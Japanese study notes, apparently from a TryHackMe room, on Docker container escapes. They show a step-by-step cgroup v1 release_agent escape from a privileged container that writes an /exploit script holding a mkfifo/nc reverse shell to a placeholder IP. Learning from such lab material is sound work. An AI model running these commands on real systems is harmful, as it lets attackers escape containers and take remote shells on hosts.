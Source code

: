 ## 脆弱性

https://tryhackme.com/room/containervulnerabilitiesDG

ゲスト OS ユーザーの capability が重要。

```sh
# capabilityの表示
capsh --print

# CAP_SYS_ADMIN や CAP_SYS_MODULE などが有効な場合、特権コンテナと考えられる。

```

[capability の種類と、できること](https://linux.die.net/man/7/capabilities)

### 特権モードコンテナ

特権モードで実行されているコンテナ（--privileged）は、Docker エンジンをバイパスし、ホスト OS と直接通信する。

```sh
# cgroup v1 か v2 かを判別する
mount | grep cgroup
```

下記は、cgroup v1 でのみ有効な手法

```sh
# 1. cgroupをマウント（ホストOS側のカーネルに属する cgroup 機能の「一部」へのアクセス）
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# 2. 「cgroup」が終了したらカーネルに何かを実行するよう指示
echo 1 > /tmp/cgrp/x/notify_on_release

# 3. コンテナのファイルがホスト上のどこにあるかを調べ、変数として保存
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# 4. release_agent は、リリースされると「cgroup」によって実行される
echo "$host_path/exploit" > /tmp/cgrp/release_agent

# 5,6,7. エクスプロイトコード
echo '#!/bin/sh' > /exploit
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 7777 >/tmp/f" >> /exploit
chmod a+x /exploit

# 8. PID を書き込むと、そのプロセスが指定された cgroup に所属する。
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

### 公開された Docker デーモンによるエスケープ

ゲスト OS で実行
